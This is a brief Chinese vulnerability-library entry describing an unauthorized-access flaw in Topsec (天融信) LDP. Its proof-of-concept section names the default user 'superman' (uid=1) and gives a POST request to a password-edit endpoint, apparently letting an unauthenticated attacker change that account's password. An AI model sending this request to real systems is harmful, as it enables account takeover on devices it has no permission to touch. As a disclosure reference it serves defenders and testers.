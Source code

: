 ```yaml
---
title: 天融信LDP未授权访问漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 天融信
---
```


# 天融信LDP未授权访问漏洞

## 漏洞描述

天融信LDP存在未授权访问漏洞

## 漏洞影响

> [!NOTE]
>
> 天融信LDP

## 漏洞复现

POC为

```
默认用户superman的uid=1
POST /?module-auth_user&action=mod_edit.pwd HTTP/1.1
```

